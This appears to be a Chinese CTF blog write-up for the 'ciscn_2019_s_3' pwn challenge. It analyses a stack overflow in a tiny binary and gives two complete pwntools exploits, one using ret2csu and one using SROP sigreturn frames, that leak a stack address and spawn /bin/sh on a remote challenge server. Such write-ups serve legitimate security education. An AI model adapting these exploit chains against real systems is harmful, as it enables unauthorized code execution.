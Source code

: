```yaml
---
layout: post
title:  ciscn_2019_s_3
date:   2021-02-05 00:01:01 +0300
image:  2021-02-05-sleigh-ride.jpg
tags:   [ctf,PWN,ciscn2019,ret2csu,SROP]
---
```


**main()**

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return vuln();
}
```

**vuln()**

```assembly
signed __int64 vuln()
{
  signed __int64 result; // rax

  __asm { syscall; LINUX - sys_read }
  result = 1LL;
  __asm { syscall; LINUX - sys_write }
  return result;
}
```

其实这个函数不能从反汇编的结果来看，这样什么都看不出来，应该直接看汇编。

```assembly
.text:00000000004004ED
.text:00000000004004ED ; =============== S U B R O U T I N E ============================
.text:00000000004004ED
.text:00000000004004ED ; Attributes: bp-based frame
.text:00000000004004ED
.text:00000000004004ED                 public vuln
.text:00000000004004ED vuln            proc near               ; CODE XREF: main+14↓p
.text:00000000004004ED
.text:00000000004004ED buf             = byte ptr -10h
.text:00000000004004ED
.text:00000000004004ED ; __unwind {
.text:00000000004004ED                 push    rbp
.text:00000000004004EE                 mov     rbp, rsp
.text:00000000004004F1                 xor     rax, rax
.text:00000000004004F4                 mov     edx, 400h       ; count
.text:00000000004004F9                 lea     rsi, [rsp+buf]  ; buf
.text:00000000004004FE                 mov     rdi, rax        ; fd
.text:0000000000400501                 syscall                 ; LINUX - sys_read
.text:0000000000400503                 mov     rax, 1
.text:000000000040050A                 mov     edx, 30h        ; count
.text:000000000040050F                 lea     rsi, [rsp+buf]  ; buf
.text:0000000000400514                 mov     rdi, rax        ; fd
.text:0000000000400517                 syscall                 ; LINUX - sys_write
.text:0000000000400519                 retn
.text:0000000000400519 vuln            endp ; sp-analysis failed
.text:0000000000400519
.text:0000000000400519 ; ----------------------------------------------------------------
```

buf大小为0x10

可以看到";"后的注释给出了参数count，buf，fd。因此可以确定为:

```assembly
read(0,buf,0x400);
write(1,buf,0x30);
```

存在溢出。

但是函数中没有leave，只有ret，

leave这个指令等价于

```assembly
mov	esp, ebp
pop	ebp
```

释放早先的ENTER指令设置的堆栈帧。LEAVE指令将帧指针（在EBP寄存器中）复制到堆栈指针寄存器 (ESP)，从而释放分配给堆栈帧的堆栈空间。然后，旧的帧指针（由ENTER指令保存的调用过程的帧指针）从堆栈弹入 EBP 寄存器，从而恢复调用过程的堆栈帧。

所以溢出为0x10。

**gadgets()**函数也要从汇编看

```assembly
.text:00000000004004D6
.text:00000000004004D6 ; =============== S U B R O U T I N E ============================
.text:00000000004004D6
.text:00000000004004D6 ; Attributes: bp-based frame
.text:00000000004004D6
.text:00000000004004D6                 public gadgets
.text:00000000004004D6 gadgets         proc near
.text:00000000004004D6 ; __unwind {
.text:00000000004004D6                 push    rbp
.text:00000000004004D7                 mov     rbp, rsp
.text:00000000004004DA                 mov     rax, 0Fh
.text:00000000004004E1                 retn
.text:00000000004004E1 gadgets         endp ; sp-analysis failed
.text:00000000004004E1
.text:00000000004004E2 ; ----------------------------------------------------------------
.text:00000000004004E2                 mov     rax, 3Bh
.text:00000000004004E9                 retn
.text:00000000004004E9 ; ----------------------------------------------------------------
.text:00000000004004EA                 db 90h
.text:00000000004004EB ; ----------------------------------------------------------------
.text:00000000004004EB                 pop     rbp
.text:00000000004004EC                 retn
.text:00000000004004EC ; } // starts at 4004D6
```

其中有两个指令：mov rax,0fh 以和mov rax 3Bh。这两个gadget控制了rax的值，看看这两个是什么系统调用。

x86_64 (64-bit)中

|  NR  | syscall name | %rax |     arg0 (%rdi)      |       arg1 (%rsi)       |       arg2 (%rdx)       | arg3 (%r10) | arg4 (%r8) | arg5 (%r9) |
| :--: | :----------: | :--: | :------------------: | :---------------------: | :---------------------: | :---------: | :--------: | :--------: |
|  15  | rt_sigreturn | 0x0f |          ?           |            ?            |            ?            |      ?      |     ?      |     ?      |
|  59  |    execve    | 0x3b | const char *filename | const char *const *argv | const char *const *envp |      -      |     -      |     -      |

通过sys_execve()可以控制寄存器的值调用execve("/bin/sh",0,0)

这里要注意的是，第一次溢出返回的函数不同，栈的布局也是不同的。

返回vuln()函数的栈布局

![]({{site.baseurl}}/img/2021-02-05-vuln.jpg)

还要注意的是

```
call    qword ptr [r12+rbx*8]
```

r12+rbx*8并不是接下来要执行的地址，而是存放接下来要执行语句的地址。

即**[r12+rbx\*8]**代表的是**r12 +** **rbx\*8**此**地址上的内容**。

```assembly
from pwn import *

context.log_level = 'debug'

io = remote("node3.buuoj.cn",29151)

main = 0x40051d
vuln = 0x4004ED
payload = "/bin/sh\x00" + "a"*8 + p64(vuln)
io.sendline(payload)

io.recv(0x20)
addr = u64(io.recv(8))
print(hex(addr))

binsh = addr - 0x118

pop_rbx_rbp_r12_r13_r14_r15 = 0x40059A
mov = 0x400580
mov_rax = 0x04004E2
pop_rdi = 0x4005A3
syscall = 0x400501
payload = "/bin/sh\x00"  + "b"*8 + p64(mov_rax) + p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) + p64(1) + p64(binsh+0x10) + p64(0) + p64(0) + p64(0)
payload += p64(mov) + "c"*(8*6 + 8)
# mov的操作将会抬升8*7共56字节的栈空间，
# 因此我们还需要提供56个字节的垃圾数据进行填充，
# 然后再拼接上retn要跳转的地址。
payload += p64(pop_rdi) + p64(binsh) + p64(syscall)
io.sendline(payload)

io.interactive()
```

### SOP

```
from pwn import *

# context.log_level = 'debug'

io = remote("node3.buuoj.cn",29151)

elf = ELF("./ciscn_s_3")
context.arch = elf.arch

main = 0x40051d
vuln = 0x4004ED
payload = "/bin/sh\x00" + "a"*8 + p64(vuln)
io.sendline(payload)

io.recv(0x20)
addr = u64(io.recv(8))
print(hex(addr))

binsh = addr - 0x118
syscall = 0x400501

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = binsh
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall

sigreturn = 0x4004DA
payload = "/bin/sh\x00/bin/sh\x00" + p64(sigreturn) + p64(syscall) + str(sigframe)
io.sendline(payload)

io.interactive()
```

